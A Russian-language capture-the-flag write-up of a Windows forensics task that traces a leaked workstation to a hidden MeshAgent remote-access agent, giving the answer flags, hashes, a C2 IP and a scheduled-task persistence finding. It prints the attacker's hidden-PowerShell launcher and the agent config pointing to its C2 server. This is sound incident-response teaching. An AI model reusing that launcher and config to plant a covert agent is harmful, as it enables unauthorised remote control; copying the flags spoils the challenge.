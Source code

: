 # Digital footprint

## Легенда

На закрытых форумах была обнаружена утечка конфиденциальных данных, связанных с организацией. По содержимому утечки удалось локализовать рабочую станцию под управлением Windows. Вам предоставлены собранные цифровые артефакты для проведения дальнейшего анализа.

1. Необходимо определить семейство вредоносного ПО (указать ссылку на репозиторий проекта), использованного злоумышленниками после получения доступа к информационной системе.
Формат флага: rdg{https://github.com/author/project}

2. Необходимо подготовить перечень индикаторов компрометации для их использования на средствах защиты информации. Укажите MD5 хеш-сумму основного модуля ВПО (в нижнем регистре) и IP-адрес его центра удаленного управления.
Формат флага: rdg{MD5_127.0.0.1}

3. Необходимо определить способ закрепления злоумышленника в системе. Способ закрепления необходимо указать в формате MITRE ATT&CK. Укажите имя созданной сущности для закрепления (без пробелов, в нижнем регистре).
Формат флага: rdg{TXXXX.XXX_name}

### Решение

Посмотрим, какие исполняемые файлы запускались в рамках скомпрометированной операционной системе. Существует большое количество артефактов, указывающих на это. Рассмотрим некоторые из них.
- Program Compatibility Assistant (PCA). Данный артефакт в каком-то виде появился еще в Windows 8, но в полной мере стал использоваться с Windows 11 Pro (22H2). Подробнее: https://aboutdfir.com/new-windows-11-pro-22h2-evidence-of-execution-artifact/.

Содержимое C:\\Windows\\appcompat\\pca\\PcaAppLaunchDic.txt:

```
D:\setup64.exe|2025-03-23 21:30:35.599
C:\Program Files\WindowsApps\Microsoft.WindowsNotepad_11.2112.32.0_x64__8wekyb3d8bbwe\Notepad\Notepad.exe|2025-03-23 21:31:33.302
C:\Users\tech\Downloads\7z2409-x64.exe|2025-03-23 21:35:57.475
C:\Users\tech\Downloads\Firefox Installer.exe|2025-03-23 21:39:15.956
C:\Users\tech\Downloads\Updater.exe|2025-03-28 10:44:43.626
C:\Users\tech\Desktop\Collector_velociraptor-v0.74.1-windows-amd64.exe|2025-03-28 10:49:03.229

```
Содержимое C:\\Windows\\appcompat\\pca\\PcaGeneralDb0.txt:
```
2025-03-23 21:44:58.667|2|%programfiles%\mozilla firefox\firefox.exe|firefox|mozilla corporation|136.0.2|0006483fc29456f3f6192ed9832cd8992ebe00000000|Abnormal process exit with code 0x1
2025-03-23 21:44:58.762|2|%programfiles%\mozilla firefox\firefox.exe|firefox|mozilla corporation|136.0.2|0006483fc29456f3f6192ed9832cd8992ebe00000000|Abnormal process exit with code 0x1
2025-03-23 21:44:58.809|2|%programfiles%\mozilla firefox\firefox.exe|firefox|mozilla corporation|136.0.2|0006483fc29456f3f6192ed9832cd8992ebe00000000|Abnormal process exit with code 0x1
2025-03-28 10:44:46.424|3|%USERPROFILE%\downloads\updater.exe||||0006d35d19a7bfb72001932fe8df8f29500a0000ffff|PCA resolve is called, resolver name: DetectorShim_KernelDriver, result: 0

```
Можем получить временную метку запуска, полный путь, статус запуска и т.д.
- Application Activity Cache (AmCache). Файл реестра, содержащий данные о запуске исполняемых файлов. Располагается по следующему пути - C:\Windows\appcompat\Programs\Amcache.hve. Его можно распарсить с помощью инструмента RegRipper (https://github.com/keydet89/RegRipper3.0). Полученное содержимое:

```
<truncated>

c:\program files\7-zip\uninstall.exe  LastWrite: 2025-03-27 20:13:56Z
Hash: 5ded32077cda52b5527f75017552a598b0523db7

c:\program files (x86)\mozilla maintenance service\uninstall.exe  LastWrite: 2025-03-27 20:13:56Z
Hash: 072b39a0086ee0ecc283d51dbc295073c3cb0475

c:\users\tech\downloads\updater.exe  LastWrite: 2025-03-28 10:44:46Z
Hash: 7f56e91b828a0b48478765171f4208ad8f89bae0

c:\program files\mozilla firefox\updater.exe  LastWrite: 2025-03-27 20:13:56Z
Hash: 954d37c43e034b490b691666ce85c7a8eb2486d2

c:\windows\system32\upfc.exe  LastWrite: 2025-03-23 21:32:31Z
Hash: 2d6bba219472d069f67c589ee4040a7e1c289bce

<truncated>
```
Здесь помимо всего прочего фигурирует SHA1-хеш исполняемого файла. Проверим хеш 7f56e91b828a0b48478765171f4208ad8f89bae0 засветившегося ранее файла c:\users\tech\downloads\updater.exe на VirusTotal.

![изображение](https://github.com/user-attachments/assets/29998ffa-007c-45d4-875b-1c4b74d11e99)

Файл представляет собой самораспаковывающийся архив. 

![изображение](https://github.com/user-attachments/assets/f6bfdb74-8b83-4dfc-828f-992d67340baf)

Смотрим дочерние объекты на вкладке Relations. 

![изображение](https://github.com/user-attachments/assets/c8d3603a-f56b-489c-98af-1ffea37e0b8c)

Архив включал в себя три файла:
- WindowsUpdater.exe 
- WindowsUpdater.msh 
- run.cmd

WindowsUpdater.exe (впрочем как и его родительский исполняемый файл) детектируется средствами антивирусной защиты как ПО MeshAgent, представляющее собой клиентскую часть общедоступного решения для удаленного администрирования. Поиск в сети приводит к Github репозиторию https://github.com/Ylianst/MeshAgent. 

#### Флаг rdg{https://github.com/Ylianst/MeshAgent}.

С VirusTotal сразу можно извлечь необходимые для детектирования индикаторы компрометации:
- Updater.exe, MD5: 1c704f556015d46eb9f95f9ef311ea8e 
- IP-адрес С2: 158.160.118.18

#### Флаг: rdg{1c704f556015d46eb9f95f9ef311ea8e_158.160.118.18}

Конфигурацию MeshAgent, включая адрес С2, можно также извлечь из содержимого ресурсной записи MFT (так как файлы имеют небольшой размер). Найдем извлекаемые файлы по уже известным с VT именам. Для парсинга MFT вспользуемся утилитой EZ MFTECmd:

```powershell
> .\MFTECmd.exe -f "uploads\ntfs\%5C%5C.%5CC%3A\$MFT" --csv "." --csvf mft.csv
```

Полученный csv проанализируем с помощью EZ Timeline Exporer:

![изображение](https://github.com/user-attachments/assets/5c1580a0-917e-4691-adeb-8bc8ea566ddc)

Попробуем извлечь содержимое файла run.cmd и WindowsUpdater.msh с помощью того же MFTECmd (в качестве значения аргумента --de указываем идентификатор искомой записи с резидентными данными).

Вывод содержимого run.cmd (пакетный файл, запускаемый при исполнении архива Updater.exe):
```powershell
> .\MFTECmd.exe -f 'uploads\ntfs\%5C%5C.%5CC%3A\$MFT' --de 111829

<truncated>
    ASCII:   @echo off
set processPath="%temp%\WindowsUpdater.exe"
set processArgs="run"

powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command Start-Process -FilePath %processPath% -ArgumentList '%processArgs%' -WindowStyle Hidden
    UNICODE: ??????????????????????????≥??4?????????????????????????????????????????????????????????????????????????4??????????????????

```
Вывод содержимого WindowsUpdater.msh (конфигурационный файл MeshAgent):
```powershell
> .\MFTECmd.exe -f 'uploads\ntfs\%5C%5C.%5CC%3A\$MFT' --de 111828

<truncated>
  ASCII:   ???MeshName=Victims
MeshType=2
MeshID=0x8CDEAF00D7038E14AB2C29E6756DD0ED6675495B008A75E95D8101A28122EC3656D9F7CAA9D8957183C64597A33AA135
ServerID=BE924D2D29C07D1C2A4A18C1092883B28A7A82A262D65062FE99C7C35BFBB9AD3A602C88C9F3772EC0475131EF44DDB1
MeshServer=wss://158.160.118.18:443/agent.ashx
InstallFlags=2
ignoreProxyFile=1
    UNICODE: ????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????
```
Для закрепления в системе существует множество техник (закрепление через реестр, сервис, каталоги автозагрузки и т.д.). Просмотрим содержимое куста реестра SOFTWARE (C:\\Windows\\System32\\config\\SOFTWARE) с помощью EZ Registry Explorer. Проведем поиск по ключевому слову ранее выявленного исполняемого файла MeshAgent - WindowsUpdater.exe. В результате установим факт наличия созданной задачи "OneDrive Init" в планировщике задач Windows:

![изображение](https://github.com/user-attachments/assets/22c71be1-bec2-4208-8f5b-dd18c4c592ae)

Использование планировщика задач Windows соответствует технике T1053.005 Scheduled Task/Job: Scheduled Task матрицы MITRE ATT&CK. 

#### Флаг: rdg{T1053.005_onedriveinit} 
